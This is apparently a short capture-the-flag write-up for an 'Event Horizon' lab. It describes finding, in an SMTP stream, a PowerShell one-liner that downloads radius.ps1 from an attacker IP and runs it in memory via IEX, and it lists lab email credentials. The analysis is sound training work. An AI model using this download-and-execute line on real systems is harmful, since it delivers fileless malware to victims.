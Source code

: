 
filterd for smtp and followed a tcp stream i found a base64 at the end that had a powershell command one liner IEX(New-Object Net.WebClient).downloadString('http://10.0.2.45/radius.ps1') The command creates a Net.WebClient(used to send and receive data using http). The command downloads the contents of radius.ps1 being served in attacker's ip 10.0.2.45. It executes the downloaded data in memory using IEX(Invoke Expression)-the script is never saved in disk it executes after being downloaded.

tom.dom@eventhorizon.thm:password dom.mark@eventhorizon.thm
<img width="1919" height="489" alt="image" src="https://github.com/user-attachments/assets/fa3687c9-0a9f-4761-b305-4cd395e6887e" />
<img width="1275" height="797" alt="image" src="https://github.com/user-attachments/assets/86f88982-cf9f-4a81-9389-3a5c078a3c25" />
<img width="1093" height="771" alt="image" src="https://github.com/user-attachments/assets/ebc13801-1254-48ca-8471-907fa6cdc7b6" />


